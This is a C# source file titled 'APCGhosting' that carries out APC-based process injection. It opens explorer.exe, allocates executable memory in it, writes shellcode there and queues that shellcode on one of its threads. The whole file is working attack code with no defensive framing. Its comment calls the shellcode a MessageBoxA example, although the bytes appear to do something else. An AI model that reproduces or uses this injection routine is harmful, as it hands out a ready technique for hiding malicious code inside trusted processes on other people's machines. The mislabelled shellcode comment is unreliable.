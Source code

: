 ```csharp
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;

class APCGhosting
{
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

    static void Main()
    {
        // Example shellcode (MessageBoxA)
        byte[] shellcode = new byte[] {
            0x6a, 0x00, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54,
            0x53, 0xb8, 0xc7, 0x93, 0xbf, 0x77, 0xff, 0xd0
        };

        // Get the target process (e.g., explorer.exe)
        Process targetProcess = Process.GetProcessesByName("explorer")[0];
        IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetProcess.Id);

        // Allocate memory in the target process
        IntPtr allocAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, 0x1000 | 0x2000, 0x40);

        // Write the shellcode into the allocated memory
        UIntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

        // Find a thread in the target process
        ProcessThreadCollection threads = targetProcess.Threads;
        IntPtr hThread = OpenThread(0x001F03FF, false, (uint)threads[0].Id);

        // Queue an APC in the thread to execute the shellcode
        QueueUserAPC(allocAddress, hThread, IntPtr.Zero);

        Console.WriteLine("APC queued in the target thread.");
    }
}
```
